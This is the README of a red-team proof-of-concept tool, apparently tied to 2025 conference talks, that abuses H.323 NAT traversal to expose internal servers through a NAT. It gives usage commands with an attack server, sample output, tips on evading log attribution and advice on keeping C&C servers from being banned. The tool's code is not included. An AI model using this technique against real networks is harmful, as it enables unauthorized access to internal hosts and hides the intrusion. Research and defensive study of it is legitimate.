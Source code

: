 # Simple H.323 NAT Traversal

A tool that opens a temporary DNAT using H.323 NAT Traversal to create a breakpoint for red teaming under NAT environments!

## Reference
- This is a PoC code for Talks: From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
- This idea is derived from [NAT slipstreaming](https://samy.pl/slipstream) by [@samykamkar](https://twitter.com/samykamkar)

## Usage

1. **Start the attack server** (example IP: `9.9.9.9`):

    ```bash
    python3 server.py 
    Listening on 0.0.0.0:1720 ...
    ```

2. **Send an H.323 NAT Traversal packet**  
   - NAT public IP: `2.2.2.2`
   - Compromised device internal IP: `192.168.1.2`
   - Internal web server IP: `192.168.1.3`

    ```bash
    python3 main.py -d <next_target_ip> -p <next_target_port> -s <attack_public_ip>
    python3 main.py -d 192.168.1.3 -p 8080 -s 9.9.9.9
    ```

3. **Server output:**

    ```
    Listening on 0.0.0.0:1720 ...
    Connected by: 2.2.2.2:41658
    Received Remote IP (from payload): 2.2.2.2
    Received Remote Port (from payload): 8080
    ```

4. **Now you can directly access** `http://192.168.1.3:8080/` **via** `curl http://2.2.2.2:8080/`

5. **Logs from 192.168.1.3:**

    ```
    python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    9.9.9.9 - - [07/Jun/2025 10:10:08] "GET / HTTP/1.1" 200 -
    ```
    > You will see that the logs show requests coming from 9.9.9.9, making it difficult to associate them with 192.168.1.2.
    > The only way to relate them is that both 192.168.1.2 and 192.168.1.3 have communicated with 9.9.9.9.

## Best Practices
- Use different IP C&C servers for `192.168.1.2` and `192.168.1.3` to prevent 9.9.9.9 from being banned and losing the C&C connection.

## Demo video
- [YouTube](https://youtu.be/0mvEMlD_oa8)

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
